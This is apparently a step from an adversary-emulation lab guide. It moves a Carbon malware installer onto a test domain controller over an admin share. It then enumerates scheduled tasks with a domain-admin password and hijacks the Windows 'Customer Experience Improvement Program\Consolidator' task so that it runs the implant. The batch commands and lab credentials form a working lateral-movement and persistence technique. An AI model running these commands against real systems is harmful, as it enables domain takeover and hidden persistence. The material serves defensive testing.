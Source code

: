 :arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)`
as `Gunter`.

* Open File Explorer and browse to `C:\Windows\System32`. Order the files by date.

* Open an Admin Command Prompt. Use the following credentials if prompted:

| Username   | Password |
| :--------: | :---------------: |
| skt\frieda | Password3! |

:arrow_right: Minimize the RDP session to `hobgoblin` and start a new RDP
session to `bannik (10.20.10.9)` as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Open Microsoft Edge.

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` and
from the Admin Command Prompt, copy the 2nd Carbon installer to `bannik (10.20.10.9)`:

```bat
move C:\Windows\System32\wmimetricsq.exe \\bannik\C$\Windows\System32
```

:arrow_right: In your RDP session to `bannik (10.20.10.9)`, open File Explorer
and browse to `C:\Windows\System32`. Order the files by date.

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)`.

* From the Admin Command Prompt, execute the following to enumerate schtasks on
the domain controller:

```bat
schtasks /query /S bannik /U skt\Frieda /P Password3!
```

* :heavy_exclamation_mark: Verify that `\Microsoft\Windows\Customer Experience
Improvement Program\Consolidator` task appears in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `Customer Experience Improvement Program`
  * The output should contain:
  * >    ```
    >    Folder: \Microsoft\Windows\Customer Experience Improvement Program
    >    TaskName                                 Next Run Time          Status         
    >    ======================================== ====================== ===============
    >    Consolidator                             2/24/2023 12:00:00 AM  Ready          
    >    UsbCeip                                  N/A                    Ready      
    >    ```

* Wait for the command to return and then modify a scheduled task using the
discovered password for the domain admin `Frieda` (<https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>).

```bat
schtasks /Change /S bannik /U skt\Frieda /P Password3! /TN "\Microsoft\Windows\Customer Experience Improvement Program\Consolidator" /TR %SystemRoot%\System32\wmimetricsq.exe
```
